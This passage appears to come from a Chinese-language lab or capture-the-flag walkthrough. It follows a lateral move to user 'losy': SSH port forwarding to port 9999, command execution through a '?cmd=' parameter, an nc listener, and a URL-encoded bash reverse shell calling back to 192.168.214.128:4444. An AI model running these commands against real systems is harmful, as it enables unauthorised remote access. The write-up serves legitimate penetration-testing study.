

发现losy用户执行的定时任务，涉及9999端口

端口转发

# 新开终端执行

ssh -L 9999:localhost:9999 jehad@192.168.214.130



成功建立端口转发

17. 测试命令执行

访问 http://localhost:9999/?cmd=whoami

显示当前用户为losy

反弹Shell获取losy权限

# Kali监听

nc -lvvp 4444



# 访问URL（URL编码后的反弹shell命令）

http://localhost:9999/?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.214.128/4444%200%3E%261%27



成功获取losy用户的shell

查看历史记录获取密码
